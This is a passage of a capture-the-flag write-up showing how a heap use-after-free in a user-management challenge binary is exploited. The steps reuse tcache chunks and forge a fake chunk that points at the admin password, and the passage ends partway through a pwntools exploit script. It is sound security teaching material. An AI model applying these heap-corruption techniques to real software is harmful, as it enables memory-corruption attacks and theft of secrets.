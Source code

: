 2. Get the memory back from `tcache`
    ```python!
    add_user(1, b'a'*8, b'aaaa')
    edit_data(1, 0x20, b'a')
    ```

3. Construct fake chunk that the data pointer will point to the `admin_pass_addr`
    ```python!
    fake_chunk = flat(
        b'a'*8, b'a'*8,
        b'a'*8, 0x31,
        b'a'*8, b'a'*8,
        b'a'*8, b'a'*8,
        admin_pass_addr, 
    )
    edit_data(0, 0x48, fake_chunk)
    show_user()
    ```
    ![](https://imgur.com/N81QUXR.png)
4. Then we got flag 1!!!
    ![](https://imgur.com/HezQUdJ.png)


### Easy solution
Try to let the admin user be the data of other user, then we can use `show_user` function to print it out
```python!
add_user(1, b'a'*8, b'aaaa')
del_user(0)
edit_data(1, 0x20, b'b'*16)
show_user()
```
1. First, we add user 1
        ![](https://imgur.com/TrRwqJY.png)
2. Then we delete user 0(admin), so that it'll be put into `tcache`(`0x30`)
    ![](https://imgur.com/GlClYCU.png)
3. When we use `edit_data` function, it'll get a memory space from sub-bin of `tcache` be user1's data, which is what we delete. In addition, in order to print the data section out, must change the `NULL` byte to garbage
    ![](https://imgur.com/B4lCir7.png)
4. Then we got flag 1!!!
    ![](https://imgur.com/mUA6ubZ.png)


:::spoiler Whole exploit
```python=
from pwn import *

r = process('./chal')
# r = remote('edu-ctf.zoolab.org', 10008)

context.arch = 'amd64'

def add_user(idx, user_name, user_passwd):
    r.sendafter(b'> ', b'1')
    r.sendlineafter(b'index\n> ', str(idx))
    r.sendafter(b'username\n> ', user_name)
    r.sendafter(b'password\n> ', user_passwd)

def edit_data(idx, note_size, message):
    r.sendafter(b"> ", b"2")
    r.sendlineafter(b'index\n> ', str(idx))
```